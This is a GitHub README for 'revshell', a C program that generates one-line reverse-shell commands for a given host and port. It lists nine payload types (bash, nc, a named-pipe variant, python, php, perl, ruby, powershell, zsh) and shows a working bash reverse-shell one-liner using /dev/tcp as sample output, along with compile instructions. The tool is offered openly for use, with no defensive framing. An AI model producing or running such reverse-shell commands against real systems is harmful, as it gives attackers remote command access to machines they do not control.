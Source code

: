 # revshell
Reverse shell generator with simple one-line commands.

## Usage

```
▶ ./revshell

    Produced by Nosferatuvjr, feel free to use it, but please credit me.
                            v0.1

Usage: revshell.c <host> <port> <number of payload>

Payload list:
1. bash
2. nc
3. rm /tmp/f
4. python
5. php
6. perl
7. ruby
8. powershell
9. zsh

```

```
▶ ./revshell 192.168.0.1 1234 1

- bash -i >& /dev/tcp/192.168.0.1/1234 0>&1
```

## Showcase
![Execution](https://cdn.discordapp.com/attachments/805825050929790977/958156647744819210/print.png)


## Compile

Compile it yourself or use pre-compiled binary from releases section.

```
gcc revshell.c -o revshell
```
### Fale comigo em :
<p align="left">
  <a href="https://github.com/Nosferatuvjr" target="_blank"><img src="https://img.shields.io/badge/Github-Nosferatuvjr-green?style=for-the-badge&logo=github"></a>
  <a href="https://www.instagram.com/vivald0x6f" target="_blank"><img src="https://img.shields.io/badge/IG-%40vivald0x6f-red?style=for-the-badge&logo=instagram"></a>
</p>
